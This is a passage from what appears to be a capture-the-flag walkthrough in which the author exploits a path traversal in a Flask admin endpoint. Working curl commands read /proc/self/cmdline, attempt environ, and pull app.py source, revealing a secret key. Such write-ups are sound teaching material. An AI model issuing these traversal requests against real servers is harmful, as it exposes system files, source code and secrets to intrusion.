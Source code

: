 I could also use `/proc/self`. The `cmdline` shows it's Flask:



    oxdf@hacky$ curl -s 10.10.11.127/admin/view/../../proc/self/cmdline --path-as-is -o- | tr '\000' ' '
    /usr/bin/python2.7 /usr/local/bin/flask run --host=0.0.0.0 --port=80



For some reason, I can't read the`environ` file:



    oxdf@hacky$ curl -s 10.10.11.127/admin/view/../../../proc/self/environ --path-as-is -o- | tr '\000' '\n'
    No such log found!



But, I can use `cwd` to get the directory the application is running
from, and guess that the file is `app.py`:



    oxdf@hacky$ curl -s 10.10.11.127/admin/view/../../proc/self/cwd/app.py --path-as-is
    from flask import Flask, redirect, request, render_template, session, g, url_for, send_file, make_response    
    ...[snip]...



#### Flask Source Analysis

From `app.py`, I'll note:

-   The SECRET_KEY is `SjG$g5VZ(vHC;M2Xc/2~z(`.
-   There's an `auth.py` as well where the `check` function is imported
    (or there's a folder `auth` with `check.py`)

I'll grab `auth.py` the same way:

[![](/img/image-20211106071214604.png)*Click
for full size
